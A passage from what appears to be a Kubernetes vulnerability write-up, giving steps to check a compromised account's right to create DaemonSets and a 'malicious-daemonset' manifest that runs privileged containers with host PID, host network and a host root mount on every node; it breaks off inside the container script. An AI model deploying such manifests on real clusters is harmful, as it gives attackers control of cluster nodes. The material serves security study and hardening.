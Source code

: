 ## 2. Validation and Exploitation Steps Section

This section details how to validate the vulnerability and exploit it. We assume the attacker has compromised a user or service account with some level of access to the cluster.

**Phase 1: Validation - Checking Permissions**

The first step is to determine if the compromised account has the necessary permissions to create DaemonSets.

```bash
kubectl auth can-i create daemonsets.apps --namespace=default
```

*   **Explanation:** This command checks if the currently configured user or service account can create DaemonSets in the `default` namespace.
*   **Why:** We need to verify if we have the required privileges before attempting to create a malicious DaemonSet.
*   **Expected Output:**
    *   If the account has permission: `yes`
    *   If the account does not have permission: `no`
*   **Contribution:** This command confirms whether the current account can proceed with the exploit.
*   **Variation:** Check permissions in different namespaces: `kubectl auth can-i create daemonsets.apps --namespace=kube-system`

If the output is `no`, you need to find another compromised account, escalate privileges (outside the scope of this specific vulnerability document), or identify other weaknesses that allow you to gain the necessary permissions. For this example, let's assume the output is `yes`.

**Phase 2: Crafting a Malicious DaemonSet**

Now that we've confirmed we can create DaemonSets, we craft a malicious DaemonSet manifest. This example will create a DaemonSet that runs a simple busybox container on each node and executes a command to write a file containing the node's hostname to a shared volume.

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: malicious-daemonset
  labels:
    app: malicious
spec:
  selector:
    matchLabels:
      app: malicious
  template:
    metadata:
      labels:
        app: malicious
    spec:
      hostPID: true # Potentially dangerous, allows access to the host's PID namespace
      hostNetwork: true # Potentially dangerous, allows access to the host's network namespace
      containers:
      - name: malicious-container
        image: busybox:latest
        securityContext:
          privileged: true # Highly dangerous, provides almost full host access
        volumeMounts:
        - name: host-root
          mountPath: /host
        command: ["/bin/sh", "-c"]
        args:
        - |
          #!/bin/sh
          # Mount the root filesystem and write to a file
```